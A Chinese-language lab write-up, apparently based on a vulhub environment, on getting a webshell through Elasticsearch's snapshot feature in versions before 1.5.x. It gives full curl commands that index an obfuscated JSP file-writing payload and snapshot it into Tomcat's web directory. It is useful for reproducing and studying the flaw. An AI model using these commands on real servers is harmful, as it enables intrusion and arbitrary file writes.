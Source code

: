 Elasticsearch 1.5.x 后台getshell
================================

一、漏洞简介
------------

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

二、漏洞影响
------------

Elasticsearch 1.5.x

三、复现过程
------------

### 测试环境

编译与启动测试环境：

    docker-compose build
    docker-compose up -d

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

### 漏洞复现

首先创建一个恶意索引文档：

    curl -XPOST http://www.0-sec.org:9200/yz.jsp/yz.jsp/1 -d'
    {"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
    '

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

    curl -XPUT 'http://www.0-sec.org:9200/_snapshot/yz.jsp' -d '{
         "type": "fs",
         "settings": {
              "location": "/usr/local/tomcat/webapps/wwwroot/",
              "compress": false
         }
    }'

存储库验证并创建:

    curl -XPUT "http://www.0-sec.org:9200/_snapshot/yz.jsp/yz.jsp" -d '{
         "indices": "yz.jsp",
         "ignore_unavailable": "true",
         "include_global_state": false
    }'

完成！

访问`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://www.0-sec.org:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](./.resource/Elasticsearch1.5.x后台getshell/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/WooYun-2015-110216/
